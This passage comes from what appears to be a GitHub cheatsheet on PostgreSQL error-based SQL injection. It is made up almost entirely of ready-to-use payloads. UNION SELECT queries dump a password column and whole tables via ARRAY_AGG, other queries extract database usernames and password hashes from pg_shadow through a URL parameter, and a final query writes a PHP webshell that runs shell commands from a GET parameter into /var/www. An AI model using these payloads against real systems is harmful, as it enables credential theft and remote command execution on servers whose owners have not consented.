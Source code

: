 Assume that inside table **users** there is a column called **password**, let's dump that column:  
`' union select cast(data_column as int), null, null, null FROM password--+`  
or without casting to int:  
`' union select data_column, null, null, null FROM password--+`

Another query to dump data via **ARRAY_AGG** function (thanks [@Nikhil](https://github.com/0xw0lf) for the query):  
`1' UNION ALL SELECT NULL,ARRAY_AGG(COALESCE(name::text,(' ')))::text,NULL,NULL,NULL FROM <database>.<table> ORDER BY <column>--`  
For example:  
`1' UNION ALL SELECT NULL,ARRAY_AGG(COALESCE(name::text,(' ')))::text,NULL,NULL,NULL FROM public.users ORDER BY name--`

### Dump PostgreSQL user's username & password hash

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Postgres%20-%20Error%20Based%20SQLi#dump-postgresql-users-username--password-hash)

Let's assume that the database has 5 columns and the first one is vulnerable.

Dump postgres username:  
`'+union+select+cast(usename+as+int),null,null,null,null++FROM+pg_shadow--`  
If that doesn't work, try the same query without doing the casting to int:  
`http://website.com/products/detail?id=-1' union select usename,null,null,null,null from pg_shadow--`

Dump postgres user's password:  
`'+union+select+cast(passwd+as+int),null,null,null,null++FROM+pg_shadow--`  
If that doesn't work, try the same query without doing the casting to int:  
`http://website.com/products/detail?id=-1' union select passwd,null,null,null,null from pg_shadow--`

### Write file (Webshell)

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Postgres%20-%20Error%20Based%20SQLi#write-file-webshell)

`UNION SELECT '<?php $out = shell_exec($_GET["x"]); echo "<pre>$out</pre>";?>' \g /var/www/test.php; --`